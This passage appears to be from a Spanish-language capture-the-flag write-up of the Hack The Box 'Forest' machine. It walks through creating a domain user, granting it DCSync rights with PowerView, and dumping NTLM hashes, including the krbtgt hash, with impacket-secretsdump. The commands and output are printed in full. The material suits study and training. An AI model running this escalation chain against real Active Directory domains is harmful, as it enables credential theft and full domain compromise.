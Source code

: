 Vemos lo siguiente:

![forest3](/img/forest/forest3.png)

Como somos miembros del grupo _Account Operators_, podemos crear un usuario en el grupo _Exchange Windows Permissions_ para abusar del permiso **WriteDacl** que tiene este grupo sobre todo el dominio.

Con **WriteDacl** podemos hacer ataques como **DCSync**. Vamos paso a paso:

1. Creamos el usuario **s3ntinl** y lo añadimos al grupo _Exchange Windows Permissions_.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net user s3ntinl s3ntinl123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" s3ntinl /add
The command completed successfully.
```

2. Otorgue privilegios DCSync a **s3ntinl**:
> Recuerde importar **powerview.ps1** si aún no lo ha hecho
> 
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $SecPassword = ConvertTo-SecureString 's3ntinl123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\s3ntinl', $SecPassword)

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s3ntinl -Rights DCSync
```

3. Abusamos del permiso **DCSync** con `impacket-secretsdump`:

```bash
┌──(s3n㉿kali)-[/opt/tools]
└─$ sudo impacket-secretsdump 'htb.local'/'s3ntinl':'s3ntinl123!'@'10.10.10.161'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::

...

[*] Cleaning up... 
```
